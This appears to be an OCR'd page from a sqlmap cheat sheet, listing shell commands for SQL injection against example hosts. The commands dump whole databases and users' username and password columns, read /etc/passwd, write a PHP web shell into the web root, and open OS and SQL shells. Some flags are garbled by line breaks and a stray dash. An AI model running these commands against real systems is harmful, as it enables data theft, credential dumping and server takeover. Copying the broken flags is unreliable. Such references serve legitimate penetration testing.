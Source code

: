 ### Use authentication cookie
```shell
sqlmap -u "http://example.com/login.php" --data="id=1&str=val" -p
"pid" -b --cookie="cookie1=<cookie_value1>;cookie2=<cookie_value2>"
--random-agent --risk 3 --level 5
```
### Dump all
```shell
sqlmap -u http://example.com/Less-1/?id=1 -D database_name -T
table_name --dump-all
```
### Dump only selected columns
```shell
sqlmap -u "http://example.com/login.php" -D site_db -T users -C
username,password --dump
```
### Dump database table content
```shell
sqlmap -u "http://example.com/login.php" -D database_name -T users
–-dump
```
### File request
```shell
sqlmap.py -r request.txt
```
### Reading file
```shell
sqlmap -u http://localhost/?id=* --file-read=/etc/passwd
```
### Writing file
```shell
sqlmap -u http://example.com/?id=* --file-write=shell.php --
file-dest=/var/www/html/shell-php.php
```
### SQLMap OS Shell
```shell
sqlmap --dbms=mysql -u "http://example.com/login.php" --os-shell
```
### SQLMap SQL Shell
```shell
sqlmap --dbms=mysql -u "http://example.com/login.php" --sql-shell
```
---

## Best tampers
> Add to the desired command

